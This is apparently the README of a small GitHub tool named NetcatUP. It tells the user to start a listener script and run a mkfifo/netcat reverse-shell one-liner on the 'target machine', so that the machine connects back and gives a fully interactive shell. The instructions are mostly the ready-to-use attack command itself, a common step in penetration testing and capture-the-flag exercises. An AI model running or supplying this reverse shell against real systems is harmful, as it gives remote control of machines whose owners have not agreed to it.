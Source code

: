 # NetcatUP


run `./netcatup.sh port`  
run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc targetip port >/tmp/f` on the target machine  
You should now have a fully interactive shell with bash history and tab completion  

credits: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


